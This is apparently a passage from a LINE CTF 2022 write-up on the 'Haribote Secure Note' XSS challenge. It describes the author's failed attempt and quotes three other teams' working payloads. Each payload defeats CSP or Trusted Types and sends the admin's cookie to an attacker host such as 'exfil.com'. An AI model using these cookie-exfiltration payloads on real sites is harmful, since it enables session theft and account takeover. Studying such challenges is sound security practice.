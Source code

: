 At the time, after struggling for a long time, I had an idea that we could use HTML injection to insert a form `<form id="f">`, and then CSRF admin to change the admin's nickname, because the other page profile has no CSP and can also be injected:

``` html
<input name="display_name" type="text" class="form-control form-control-sm"
 id="inputUserDisplayName"
 value="{{ current_user.display_name }}">
```

The nickname part can be set to `";f.submit();"` or similar, to submit the form. After changing it, visit the profile page and execute XSS on that page.

But the biggest problem is that `"onfocus=eval(name)` has 20 characters, which exceeds the limit and cannot be successful (and you also need to think about how to set the name).

After the competition, I looked at other people's solutions, mainly three types.

The first one comes from [Super HexaGoN](https://gist.github.com/mdsnins/d8028c47212342ecadd9af5ec10f53f9), which uses a magical [script data double escaped state](https://www.w3.org/TR/2011/WD-html5-20110405/tokenization.html#script-data-double-escaped-state) to comment out everything between the two injection points, and then execute the code in a script with a nonce. I had never seen this before, so I'll have to study it later.

```
display name: <!--<script>"}/*
title: --> /*
content: */ location.href='(attacker)/c='+document.cookie
```

The second one uses the feature that [import is not blocked by Trusted Types](https://microsoftedge.github.io/edgevr/posts/eliminating-xss-with-trusted-types/#script-loading-like-import), and the payload below comes from [maple3142](https://blog.maple3142.net/2022/03/27/line-ctf-2022-writeups/#haribote-secure-note):

``` js
display name:
"+import(y)+"

title:
</script><a id=x href="//SERVER"></a>

content:
<a id=y href="data:text/javascript,open(x+`?`+document.cookie);alert()"></a>
```

The third one uses an iframe to execute code on other pages (from eskildsen#8025):

```
name:
";f.eval(p+"");"

title:
</script><iframe src="/p" name=f></iframe> 

content:
<a href="javascript:window.top.location='http://exfil.com/'+btoa(this.parent.document.cookie)" id=p name=p>payload</a> 
```
